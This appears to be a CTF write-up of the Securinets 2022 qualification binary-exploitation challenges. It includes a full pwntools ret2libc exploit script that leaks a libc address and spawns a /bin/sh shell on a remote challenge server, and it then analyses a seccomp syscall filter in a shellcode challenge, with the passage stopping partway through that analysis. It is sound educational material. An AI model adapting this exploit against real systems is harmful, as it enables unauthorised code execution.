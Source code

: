 # National Cyber Security Congress

[Securiday](https://www.facebook.com/Securiday-104756755537130/) qualifiation round, hosted by [Securinets](https://www.facebook.com/Securinets), a 24 hour CTF. Top #10 teams will be able to compete in Securiday CTF.<br/>
I've participated in the CTF as a member of Enthousiast team. We ranked 22 out of 295 teams.<br />
I'll be sharing a writeup for the Binary Exploitation challenges.

<br/>
<hr>

* ### Welcm

For this one, we get a binary & a libc, what a time saver.

As a start, we'll check the security of the binary.

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/sec.png"><br/>
</p>
<br />

Now, let's check the binary in Ghidra:
<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/welcm.png"><br/>
</p>
<br />

A basic ret2libc, we check ropper for a `pop rdi` gadget:

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/pop_rdi.png"><br/>
</p>
<br />

Now, let's head to GDB, we check the functions we have ( `info functions` )

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/gdb.png"><br/>
</p>
<br />

No tricks I see, We have everything we'll need.

As a start, we'll need to leak a libc address from the GOT entry. Since we have `puts` available in the binary, we can use it to leak our address. After that, we'll be able to calculate the libc base address. Therefore, we'll be able to find `system` address in memory alongside our `/bin/sh` string.

Summary:

1. Return to `puts`, giving it it's own GOT entry address as a parameter.
2. Find libc base address.
3. Return to `system` giving it `/bin/sh` as parameter.

Considering Ghidra's output, we have 128 bytes for our input + 8 bytes for the RBP, which gives us a total of 136 bytes for the RIP offset. We can start writing our payload.

<details>
  <summary>Show payload</summary>
  
  ```python
  #!/usr/bin/env python3

  from pwn import *

  exe = ELF("./welc_patched")
  libc = ELF("./libc.so.6", checksec=False)

  context.binary = exe
  LOCAL = False


  def conn():
      if LOCAL:
          r = process([exe.path])
      else:
          r = remote("20.216.39.14", 1237)

      return r


  def main():
      r = conn()

      PUTS_PLT = p64(0x0000000000401060)
      PUTS_GOT = p64(0x404018)
      POP_RDI  = p64(0x0000000000401283)
      MAIN     = p64(0x00000000004011db)
      MAIN_RET = p64(0x000000000040121e)

      offset = 136

      # First stage
      # Leak puts address & return to main for stage 2
      payload = b"A"*offset
      payload += POP_RDI
      payload += PUTS_GOT
      payload += PUTS_PLT
      payload += MAIN

      print(payload)

      r.sendline(payload)

      r.recvuntil(b'about you ?\n')
      leak_puts = u64(r.readline()[:-1].ljust(8, b'\x00'))
      base_libc = leak_puts - libc.sym['puts'] # Libc base

      print('Leaked libc           :', hex(leak_puts))
      print('Libc base             :', hex(base_libc))

      SYSTEM = p64(libc.sym['system'] + base_libc)
      BIN    = p64(next(libc.search(b'/bin/sh')) + base_libc)

      # Stage 2, System("/bin/sh")
      payload = b"A"*offset
      payload += MAIN_RET # Alignement
      payload += POP_RDI
      payload += BIN
      payload += SYSTEM

      r.sendline(payload)

      r.interactive()


  if __name__ == "__main__":
      main()
  ```
</details>

And we get our flag: `Securinets{5d91d2e01b854fd457c1d8b592a19b38af6b4a33c6362b7d}`


* ### shellcraft

For this one, we were given a binary file. Considering the name, we'll probably be sending a shell. As a start, we check the binary's security & have a look throught Ghidra.

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/sec2.png"><img src="/2022/Securinets%20CTF%20Quals/imgs/ghidra2.png"><br/>
</p>
<br />

Intersting... It's not just an executable stack, but we got our call ready since the begining. But there is this `sandbox` function, digging more into it gives us the following C code:

```C
  local_18 = seccomp_init(0x7fff0000);
  local_38[0] = 2;
  local_38[1] = 0x38;
  local_38[2] = 0x39;
  local_38[3] = 0x3a;
  local_38[4] = 0x3b;
  local_38[5] = 0x65;
  local_38[6] = 0x142;
  for (local_c = 0; local_c < 7; local_c = local_c + 1) {
    seccomp_rule_add(local_18,0,local_38[(int)local_c],0);
  }
  seccomp_load(local_18);
```

So it's google time! Looking for this `seccomp_rule_add` landed me on this [description](https://man7.org/linux/man-pages/man3/seccomp_rule_add.3.html#DESCRIPTION). As we can see, this is somekind of a syscall filtering. Let's jump into GDB for more debuging... Open binary, setup a breakpoint at main+77, before we start executing our shell.

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/gdb2.png"><br/>
</p>
<br />

We take a shellcode ([Shell storm](http://shell-storm.org/)) & plug it into our binary's input then watch what happens.<br/>
We hit the breakpoint (`0x55555555530d <main+77>:	call   rdx`) & we step into the execution.

So in my case, the shell changed `rax` value to `0x142` which is `stub_execveat` code. If you're unfamiliar with the `syscall` instruction, basically it's a way for the binary to make **system calls** to the kernel to execute a specific function. Each function have it's own code ([SysCall functions list](http://shell-storm.org/shellcode/files/linux-4.7-syscalls-x64.html)), we use this code to identify which function we would like to call. We simply change the `rax` register to the function code we're seeking & set up our parameters for the function call then we use `syscall` instruction to execute it. Back to the topic, after changing the `rax` value & when we are about to make the system call, we get a crash: `Program terminated with signal SIGSYS, Bad system call.`

So as expected, we can see that the `0x142` is included in our `sandbox` code so, as we expected, this is a system call filter. 
